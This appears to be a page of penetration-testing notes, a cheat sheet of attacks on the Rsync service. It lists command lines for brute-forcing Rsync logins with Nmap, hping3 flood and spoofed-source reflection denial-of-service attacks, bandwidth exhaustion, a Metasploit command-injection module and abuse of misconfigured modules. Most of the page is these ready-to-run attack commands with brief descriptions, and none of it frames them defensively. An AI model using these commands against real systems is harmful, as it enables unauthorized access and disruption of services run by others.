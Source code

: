 ### Brute Force Rsync Authentication
- **Tool:** Nmap, Custom Scripts
    ```bash
    nmap -p 873 --script rsync-brute --script-args userdb=users.txt,passdb=passwords.txt <target_ip>
    ```
- **Description:** Performs a brute force attack against the Rsync service to gain unauthorized access.

## Denial of Service

### Techniques:

### TCP/UPD Flood Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
- **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

### TCP/UDP Reflection Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
- **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

### Bandwidth Exhaustion via Rsync
- **Tool:** [[RSync]], [[Custom Scripts]]
    ```bash
    rsync -avz /large/dataset user@<target_ip>:/dev/null
    ```
- **Description:** Synchronizes a large dataset to the target, exhausting network bandwidth and causing potential disruption.

## Exploits 

### Rsync Command Injection
- **Tool:** [[Metasploit]]
    ```bash
    msf > use exploit/linux/misc/rsync_command_exec
    ```
- **Description:** Exploits a command injection vulnerability in certain versions of Rsync to execute arbitrary commands on the target system.

### Rsync Module Misconfiguration Exploit
- **Tool:** [[RSync]]
    ```bash
    rsync user@<target_ip>::module /local/dir --password-file=/path/to/passfile
    ```
- **Description:** Exploits misconfigured Rsync modules that allow unauthorized access to sensitive directories.
